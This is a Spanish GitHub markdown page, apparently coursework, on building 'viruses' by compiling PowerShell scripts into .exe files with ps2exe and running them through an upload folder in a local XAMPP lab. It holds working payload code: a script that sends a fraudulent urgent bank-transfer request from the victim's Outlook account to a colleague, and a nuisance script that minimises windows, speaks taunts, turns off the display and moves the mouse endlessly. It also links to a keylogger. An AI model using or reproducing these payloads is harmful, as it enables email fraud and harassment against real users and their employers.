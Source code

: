 # CREACIÓN DE VIRUS (VERSIÓN .EXE)
<p align="center">
<img src="https://media.giphy.com/media/115BJle6N2Av0A/giphy.gif" />
</p>
Vamos a crear con powershell script que posteriormente convertiremos en archivos ejecutables (.exe). Para ello usaremos WIN-PS2EXE (Modo Gráfico)

Instalaremos con powershell el modulo (modo administrador)
```powershell
Install-Module -Name ps2exe
```
Posteriormente abriremos el programa de forma gráfica.
```powershell
win-ps2exe
```
Para crear el .exe solo tenemos que introducir la ruta del script .ps1 en SOURCE FILE y la ruta + el nombre del archivo (incluyendo la extension .exe) en Target file.
<br/>
<p align="center">
<a href="https://i.stack.imgur.com/iZ9es.png"><img src="https://i.stack.imgur.com/iZ9es.png" /></a>
</p>
<br/>
Para mas dudas con la instalación visita [TUTORIAL](https://www.optimizationcore.com/scripting/powershell-ps1-to-exe-converter-ps2exe-markus-scholtes).

## MODUS OPERANDI
Para crear el laboratorio, trabajaremos con localhost en xampp y vamos a crear un **formulario** al cual subiremos los ejecutables que se guardarán en una carpeta **Upload** (propiedad de la victima) donde posteriormente ejecutaremos.
Para ello crearemos un PHP dentro de htdocs con lo siguiente:
```powershell
<?php
system(".\\uploads\\hola.exe");
?>
```

Aqui podemos ver como crearlo [Formulario y carpeta upload](https://github.com/PabloQueipo/IAW/blob/cf923c250a9a52f6598e0b01b7d996cb9978ef58/2020_11_27.md)

------------------------------

## CASOS VARIOS
<p align="center">
<a href="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg"><img src="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg" /></a>
</p>

### PHISHING
Haciendo una investigación previa se consiguen correos electronicos de personal de la empresa y desde la cuenta de la víctima mandaremos un correo a otro compañero pidiendo un ingreso en una cuenta bancaria.

```powershell
$Outlook = New-Object -ComObject Outlook.Application
$Mail = $Outlook.CreateItem(0)
$Mail.To = "keipo20@gmail.com"
$Mail.Subject = "URGENTE"
$Mail.Body ="Buenos días, haz un ingreso de 100 € a la Cuenta Bancaria siguiente: xx xxxx xx xxxx xxxxxxxxxxx"
$Mail.Send()
```

### MOLESTAR

Ejecutable con la siguiente secuencia:
1. Minimizar todas las pantallas.
2. Voz con mensaje
3. Gif que habremos introducido junto con el .exe
4. Voz con mensaje y posterior apagar pantalla
5. Bucle que mueve el ratón.

```powershell
(New-Object -ComObject Shell.Application).MinimizeAll()
(New-Object -com SAPI.SpVoice).speak("Acabo de entrar en tu ordenador")
Start-Process ".\\uploads\\hacker.gif"

Start-Sleep 1
(New-Object -com SAPI.SpVoice).speak("TE VOY A APAGAR LA PANTALLA")

$code = @"
using System;
using System.Runtime.InteropServices;
public class API
{
    [DllImport("user32.dll")]
    public static extern
    int SendMessage(IntPtr hWnd, UInt32 Msg, IntPtr wParam, IntPtr lParam);
}
"@
$t = Add-Type -TypeDefinition $code -PassThru
$t::SendMessage(0xffff, 0x0112, 0xf170, 2)

for(1)
{
    Start-Sleep -Seconds 1
    $xa = [System.Windows.Forms.Cursor]::Position.X
    $ya = [System.Windows.Forms.Cursor]::Position.y
    Write-Host $xa $ya
    Start-Sleep -Seconds 1
    [System.Windows.Forms.Cursor]::Position=New-Object System.Drawing.Point(($xa+50),($ya+50))
    $xa = [System.Windows.Forms.Cursor]::Position.X
    $ya = [System.Windows.Forms.Cursor]::Position.y
    Write-Host $xa $ya
}
```




### CREACIÓN DE KEYLOGGER (PYTHON)
[Pablo Queipo Keylogger](https://github.com/PabloQueipo/SAD/blob/83925cc70ef76fc94868dacb8c112919c6221c53/2020_11_09.md9)
